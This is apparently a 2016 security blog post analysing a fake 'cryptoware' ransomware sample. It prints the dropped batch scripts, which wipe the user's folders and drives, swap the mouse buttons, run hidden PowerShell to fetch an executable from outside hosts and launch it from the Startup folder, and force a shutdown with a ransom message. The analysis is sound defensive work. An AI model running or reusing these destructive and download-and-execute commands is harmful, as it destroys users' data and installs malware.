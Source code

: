 ```yaml
---
title: "Malware: A Look Into Fake Cryptoware"
categories: blog
tags: [malware]
date: 2016-05-24T16:20:35-04:00
---
```


Ransomware has been picking up what seems to be a lot of attention within the past couple of months, with some adversaries even getting payment from some corporations. During my normal routines I've come across a fair amount of variants from Cryptowall, Teslacrypt, Locky, etc. I can now say that I've had a chance to look at fake ransomware, and honestly, I have a hard time determining if it's an amazing idea or just so basic that adversaries lacking experience are able to pull it off.

### Part1
------
The initial attack vector was an e-mail with a link which takes you to a download for an executable. When sandboxing the sample, you're able to determine that some additional files are dropped upon execution, one of which is a .bat file.

### First .bat content [C:\Users\User\AppData\Local\Temp\XXX.tmp\XXX.bat]

Lets break down the first important thing noticed.

The adversary reverses the right/left-click buttons for the mouse

```bat
@shift /0
@ echo off
rem ---------------------------------
rem Swap Mouse Buttons
RUNDLL32 USER32.DLL,SwapMouseButton
rem ---------------------------------
```

They then proceed to iterate through some of the folders most likely to contain personal information a end-user would want back, then delete all the items within the folder. I shortened the output, just know that the following folders/drives are impacted.
Desktop, Documents, Downloads, Pictures, Music, Videos, Contacts, Favorites, Searches, Recycle bin, Temp, A:, B:, D:, E:, F:, G:, H:

```bat
@echo off
set folder="%USERPROFILE%\Desktop\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

@echo off
set folder="%USERPROFILE%\Documents\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

@echo off
set folder="%USERPROFILE%\Downloads\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

@echo off
set folder="%USERPROFILE%\Pictures\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

[SNIPPED]
```


They proceed to do what I'll consider a form of calling home. A browser is launched to the web address specified which is currently down, but potentially had an encryption message.

```bat
@echo off
start "" hXXp://10236.6te.net
```

Powershell is then invoked to download some additional files.
  - First command is used to download the common "your files have been encrypted muahahaha" image. This image is then placed on the users Desktop with the name "Files_Encrypted.jpg"
  - Second command downloads another executable (we'll look at this one as well) named "part2.exe" which is then placed to probably the most common persistent point, the startup folder, and renamed to "winrds.exe".
  - Third command downloads the instructions on how the end-user can make payment via bitcoin to retrieve the decryption key to restore all their missing files. This file is also conveniently placed on the users Desktop.

```bat
@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\
(New-Object System.Net.WebClient).DownloadFile('hXXp://post.eu5.org/anon.jpg','%USERPROFILE%\Desktop\Files_Encrypted.jpg'); \\
cmd /c '%USERPROFILE%\Desktop\Files_Encrypted.jpg'

@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\
(New-Object System.Net.WebClient).DownloadFile('hXXps://s3-us-west-2.amazonaws.com/content.tobi/part2.exe', \\
'%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\winrds.exe'); cmd /c '%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\winrds.exe'

@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\ 
(New-Object System.Net.WebClient).DownloadFile('hXXps://s3-us-west-2.amazonaws.com/content.tobi/payment_instructions.txt', \\
'%USERPROFILE%\Desktop\Payment_Info.txt'); cmd /c '%USERPROFILE%\Desktop\Payment_Info.txt'
```

![Crypto Message]({{ site.url }}/images/fake_crypto.png)

### Part 2
---

### Second .bat content [C:\Users\User\AppData\Local\Temp\~XXXX.bat]
So we saw that a second executable file is retrieved and placed within the Startup folder for persistence. After detonating this second sample, some of the same techniques noticed prior were used again.

Another .bat files is dropped from the executable which begins by first reversing the mouse buttons again.

```bat
@ echo off
rem ---------------------------------
rem Swap Mouse Buttons
RUNDLL32 USER32.DLL,SwapMouseButton
rem ---------------------------------
```

They then try to make sure that the interface is enabled (I suppose they are hoping the end-user is wired with the interface having a default name). IP configuration is renewed with another call out, however to a different page, "i2.html".

```bat
@echo off
netsh interface set interface "Local Area Connection" Enable
timeout /t 10 /nobreak

@Echo off
Ipconfig /renew
timeout /t 10 /nobreak

@echo off
start "" hXXp://10236.6te.net/i2.html
timeout /t 10 /nobreak
```

They again retrieve the payment instructions and place them on the Desktop.

```bat
@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\
(New-Object System.Net.WebClient).DownloadFile('hXXp://post.eu5.org/anon.jpg','%USERPROFILE%\Desktop\Payment_Instructions.jpg'); \\
cmd /c '%USERPROFILE%\Desktop\Payment_Instructions.jpg'
timeout /t 15 /nobreak
```

Hoping the payment info retrieval was successful again, the IP configuration is released and the local interface is disabled. However, they spelled disable wrong (Desable), so the interface doesn't get turned off.

```bat
@Echo off
Ipconfig /release
timeout /t 10 /nobreak

@echo off
netsh interface set interface "Local Area Connection" Desable
timeout /t 150 /nobreak
```
 
Last, but certainly not least, the adversary issues a 60 second restart with a message displayed to pay the ransom for file retrievals. And if you need assistance with figuring out how to pay, they have a nice support e-mail address you can contact. Service first!
 
```bat
C:\Windows\System32\shutdown.exe -s -t 60 -c "Pay Your Ransom to Get Your Files and Computer Back. Shutting Down In 60 Seconds. Email: towerweb@yandex.com for assistance."
```

### Wrap up
---
This is a simple attempt at an adversary using Ransomware with a means to also impersonate itself as Cryptoware. Typically they go hand in hand, but this is a clever fake. All personal files are explicitly deleted from disk, so if an end-user was to actually pay the adversary, no decryption key will be delivered. You'll have to resort to a file recovery method for the local hard drive. So back to my original thought, is this really better then Cryptoware? The adversary really doesn't have to stand up an infrastructure for command & control traffic, they don't have to maintain crypto keys, their malware works quicker then crypto since only deletion is taking place and not rounds of encryption, etc. I really think we'll be seeing more of these "quick wins" for the adversary within the year as a typical end-user would never know the difference.

